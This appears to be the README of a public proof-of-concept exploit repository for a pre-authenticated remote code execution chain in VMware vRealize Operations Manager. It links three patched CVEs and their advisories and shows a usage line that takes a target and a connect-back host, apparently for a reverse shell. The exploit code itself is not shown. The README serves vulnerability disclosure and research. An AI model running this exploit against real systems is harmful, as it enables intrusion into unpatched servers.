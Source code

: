 # DashOverride

## What

This is a pre-authenticated RCE exploit for VMware vRealize Operations Manager (vROPS) that impacts versions <= 8.6.3.19682901.

## Author

Steven Seeley of Qihoo 360 Vulnerability Research Insititute

## Tested

The exploit was tested against 8.6.3.19682901 using the file `vRealize-Operations-Manager-Appliance-8.6.3.19682901_OVF10.ova` (SHA1: 4637b6385db4fbee6b1150605087197f8d03ba00) but it has known to work against other older versions as well.

## Notes

- This exploit chains three vulnerabilities that have been [patched](https://www.vmware.com/security/advisories/VMSA-2022-0022.html). More details can be found in the [blog post](https://srcincite.io/blog/2022/08/09/from-shared-dash-to-root-bash-pre-authenticated-rce-in-vmware-vrealize-operations-manager.html):

  - [CVE-2022-31675 - MainPortalFilter ui Authentication Bypass](https://srcincite.io/advisories/src-2022-0015/)
  - [CVE-2022-31674 - SupportLogAction Information Disclosure](https://srcincite.io/advisories/src-2022-0016/)
  - [CVE-2022-31672 - generateSupportBundle VCOPS_BASE Privilege Escalation](https://srcincite.io/advisories/src-2022-0017/)

- This exploit will require the attacker to supply:

  - A valid dashboardlink token that will be used to bypass authentication.
  - Their own SMTP server settings, this is to ensure that exploitation works.
  - A valid Pak file that is signed by VMWare such as `APUAT-8.5.0.18176777.pak`.

- There is alot of moving parts to this exploit, hopefully I engineered it right so it works on the first shot.
- The exploit takes on average ~1m34.142s to complete (tested 5 times), I tried to engineer this to be faster, but it's within an allocated time for a competition ;->

## Run

```
researcher@mars:~$ ./poc.py 
(+) usage: ./poc.py <target> <connectback> <dashboardlink_token>
(+) eg: ./poc.py 192.168.2.196 192.168.2.234 uuncuybis9
```

## Example

![Running DashOverride](/poc.gif)
